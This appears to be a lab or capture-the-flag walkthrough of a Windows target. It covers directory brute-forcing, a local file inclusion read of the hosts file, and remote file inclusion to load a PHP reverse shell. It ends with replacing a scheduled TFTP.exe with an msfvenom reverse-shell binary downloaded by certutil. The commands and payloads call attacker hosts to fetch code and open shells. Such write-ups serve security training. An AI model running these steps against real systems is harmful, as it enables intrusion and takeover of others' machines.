










Now using feroxbuster:
```
feroxbuster -u http://192.168.221.53:8080/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt' -B --auto-tune
```

Visiting `/site`:

Checking for LFI vulnerability:
```
http://192.168.221.53:8080/site/index.php?page=../../../../../../../../../Windows/System32/Drivers/etc/hosts
```


We also have RFI:
```
http://192.168.221.53:8080/site/index.php?page=http://192.168.45.236/index.php
```
Now we can get a php reverse shell from revshells.com:

Put it in a file *php-reverse-shell.php*
Now start a python server:
```
python3 -m uploadserver 80 
```
Visit this:
```
http://192.168.221.53:8080/site/index.php?page=http://192.168.45.236/php-reverse-shell.php
```

Now we get a shell:


Got local.txt from rupert's desktop

Now we find a backup directory:


It TFTP.exe runs every 5 minutes so we can replace it with a reverse shell.
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=445 -f exe -o rev.exe
```
Create a reverse shell.

Now we can transfer to the target machine:
```
python3 -m uploadserver 80
```
```
certutil -urlcache -f http://192.168.45.228:/rev.exe TFTP.EXE
```

Now we get a shell in 5 minutes: